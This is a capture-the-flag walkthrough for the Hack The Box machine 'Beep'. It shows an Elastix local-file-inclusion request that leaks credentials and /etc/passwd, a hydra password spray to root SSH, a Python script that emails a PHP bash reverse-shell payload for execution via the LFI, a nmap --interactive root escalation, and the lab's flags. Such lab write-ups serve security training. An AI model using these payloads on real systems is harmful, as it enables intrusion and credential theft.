# Beep - 10.10.10.7

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.7
```

```bash
# Nmap 7.91 scan initiated Tue Apr 27 06:07:34 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.24s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING UIDL TOP LOGIN-DELAY(0) APOP EXPIRE(NEVER) IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE USER STLS RESP-CODES
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK THREAD=REFERENCES NAMESPACE SORT=MODSEQ MULTIAPPEND URLAUTHA0001 MAILBOX-REFERRALS STARTTLS RENAME QUOTA LIST-SUBSCRIBED LISTEXT IMAP4 CHILDREN IDLE ID CONDSTORE LITERAL+ CATENATE BINARY ANNOTATEMORE ATOMIC ACL THREAD=ORDEREDSUBJECT UNSELECT NO RIGHTS=kxte SORT X-NETSCAPE IMAP4rev1 UIDPLUS
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-04-27T10:18:48+00:00; +7m16s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site does not have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 7m15s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 27 06:14:42 2021 -- 1 IP address (1 host up) scanned in 427.79 seconds
```

## Website

Going to [http://10.10.10.7/](http://10.10.10.7/), redirects the attacker to [https://10.10.10.7/](https://10.10.10.7/).

What is elastix?

Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing.


## Gobuster

Enumerating the webserver with gobuster.

Running with **-k** disables checks for tls verification.

```bash
gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -o log/gobuster.out -u https://10.10.10.7 -k
```

```bash
/.htpasswd            (Status: 403) [Size: 287]
/.htaccess            (Status: 403) [Size: 287]
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]
/cgi-bin/             (Status: 403) [Size: 286]
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/favicon.ico          (Status: 200) [Size: 894]
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/robots.txt           (Status: 200) [Size: 28]
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/]
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]
/vtigercrm            (Status: 301) [Size: 313] [--> https://10.10.10.7/vtigercrm/]
```

Going to [https://10.10.10.7/admin](https://10.10.10.7/admin), the attacker is prompted by a login page from **FreePBX Administration**.



Upon Clicking cancel, the attacker is redirected to [https://10.10.10.7/admin/config.php](https://10.10.10.7/admin/config.php), where the version of FreePBX is revealed to be **2.8.1.4**.



Going to [https://10.10.10.7/configs/](https://10.10.10.7/configs/), directory listings is enable.



Going to [https://10.10.10.7/vtigercrm/](https://10.10.10.7/vtigercrm/), the attacker is presented with a *vtiger 5 crm* login page.



Searchsploit is used to search known exploits for:  elastix

```bash
searchsploit elastix
```



A local file inclusion vulnerability is discovered using the command `searchsploit -x php/webapps/37637.pl `



# Exploitation Method 1

## Method 1: LFI and Password Spray to Root

### **Vulnerability Explanation:**

Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input. An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

source: [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)

### Proof Of Concept

The LFI payload from the file **php/webapps/37637.pl ** is tested manually using burp.




```bash
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

### Getting a shell

The following request can be used to get a list of users having a shell from **/etc/passwd**.

```bash
GET /vtigercrm/graph.php?current_language=../../../../../../../../../etc/passwd%00&module=Accounts&action= HTTP/1.1
Host: 10.10.10.7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```

Once the content of the passwd file is saved to a file, all the users can be easily 

```bash
cat passwd | grep "bash" | awk -F\: '{print $1}' > users
```

```bash
root
mysql
cyrus
asterisk
spamfilter
fanis
```

A password file can be generated using the initial payload file.

```bash
cat tmp | awk -F\= '{print $2}' | sort -u > password
```

```bash
admin
amp109
amp111
asterisk
asteriskuser
jEhdIekWmdjE
localhost
mysql
```

A password spray attack using hydra can now be used with the list of users and password.

```bash
hydra -L users -P password ssh://10.10.10.7 -t 4
[ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```

The attacker can now successfully login as the **root** user using th credentials `root:jEhdIekWmdjE`.

However while logging in using ssh, an error is preventing the attacker from logging in.

```bash
$ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

After researching the issue, a solution was provided on [https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found](https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found).

```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc 
```

After using the ssh command above, the attacker can successfully login to the system.

# Exploitation Method 2

## Method 2: SMTP To Low Privilege Shell

### **Vulnerability Explanation:**

Since **SMTP** is being used, if a user has a mail account configured, it can be accessed on the user's mail location **/var/mail/user**. The attacker can mail a user, a php payload, and then read the mail location using the local file inclusion to execute the php payload on the webserver.

The enumeration steps can be followed from here: [https://book.hacktricks.xyz/pentesting/pentesting-smtp](https://book.hacktricks.xyz/pentesting/pentesting-smtp)

```bash
telnet 10.10.10.7 25
...[snip]...
220 beep.localdomain ESMTP Postfix
EHLO anubhav@locahost.com 
# EHLO = Enhanced Hello is used to identify the attacker with the server
...[snip]...
VRFY asterisk@localhost
252 2.0.0 asterisk@localhost
# VRFY = Verify is used to check if a user exist
```



The user asterisk is chosen as he was already included in the telephony backend engine from the LFI vulnerabilty.

```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "10.10.10.7"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = "" 
msg['From'] = "anubhav@localhost"
msg['To'] = "asterisk@localhost"
msg['Subject'] = "This is not a drill!"

# payload 
# message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))
message = ('<?php echo("test test test"); ?>')

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
    print("[-]Connection Error")
    exit()

# server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```

The script is modified to display **"test test test"** instead of getting the reverse shell directly. This is done in order to check whether the script is working properly or not.



As can be seen above, the text "test test test" is being printed, hence the php payload got executed.

The script can now be modified to get a reverse shell and the attacker starts to listen on port **8888**.



Once the script is ran, the LFI vulnerabilty is used to read the user **asterisk** mail content, and a reverse shell connection is obtained.



It is a good sign that there is no response on burp as the page will hang if it is connected to the netcat session.

A reverse shell as the user **asterisk** from the server is obtained .





## Privilege Escalation to Root

Running the command `sudo -l`, the attacker can know which commands can be run as root without password from the current user.

Nmap has a known privilege escalation technique, when run with the **--interactive** flag, it can drop a shell when `!sh` is ran in the prompt.



### User.txt

```bash
find /home -type f -ls 2>/dev/null
```

**User.txt** can be found in the home directory of **fanis**.

```bash
cat /home/fanis/user.txt
```



> user.txt flag: `e0492fb5a4a0ae34aac2c723e1a0db45`

### Root.txt

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```



> root.txt flag: `61af6c4db62d6f8902fe1169ed35bf10`
